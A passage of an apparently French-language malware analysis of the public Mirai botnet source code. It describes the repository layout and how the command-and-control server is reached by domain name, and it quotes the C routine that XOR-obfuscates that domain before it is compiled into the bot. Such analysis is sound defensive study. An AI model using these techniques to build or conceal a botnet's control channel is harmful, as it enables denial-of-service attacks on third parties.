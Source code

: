 The repository of Mirai source code, available at https://github.com/jgamblin/Mirai-Source-Code, contains the following folders:

* loader : the program which installs the bot on a vulnerable machine
* mirai
    * bot : the program installed on infected machines
    * cnc : the control server
    * tools : various programs, such as scripts allowing to obfuscate a domain name
* scripts : installation scripts for the CNC, database schema


### Control and Command server (CNC)

Ayant besoin de pouvoir donner des commandes aux machines qu'il contrôle (cible du déni de service, moment de l'attaque, ...), l'auteur de Mirai a utilisé un serveur de contrôle, aussi appelé CNC (Command and Control). Celui-ci n'est pas référencé par les machines du botnet par son adresse IP, mais plutôt par un nom de domaine, ce qui permet à l'attaquant de changer le serveur de contrôle facilement grâce à un changement DNS. En effet, le serveur de contrôle de Mirai pouvant étant lui-même attaqué par déni de service par divers acteurs (chercheurs en sécurité, concurrents de l'auteur de Mirai sur le marché des dénis de service, ...), il a besoin de pouvoir changer de serveur facilement.

Afin de se protéger, l'auteur obfusque le nom de domaine du serveur de contrôle grâce au programme C mirai/tools/enc.c. Ce programme transforme un nom de domaine en une suite d'octets obfusqués qu'il faut affecter à la directive de préprocesseur nommée `TABLE_CNC_DOMAIN` (mirai/bot/table.h) lors de la compilation du binaire devant être installé sur la machine visée.

```c
int main(int argc, char **args)
{
    //...

    printf("XOR'ing %d bytes of data...\n", len);
    data = x(data, len);
    for (i = 0; i < len; i++)
        printf("\\x%02X", ((unsigned char *)data)[i]);
    printf("\n");
}

void *x(void *_buf, int len)
{
    unsigned char *buf = (char *)_buf, *out = malloc(len);
    int i;
    uint8_t k1 = table_key & 0xff,
            k2 = (table_key >> 8) & 0xff,
            k3 = (table_key >> 16) & 0xff,
            k4 = (table_key >> 24) & 0xff;

    for (i = 0; i < len; i++)
    {
        char tmp = buf[i] ^ k1;

        tmp ^= k2;
        tmp ^= k3;
        tmp ^= k4;

        out[i] = tmp;
    }

    return out;
}
```
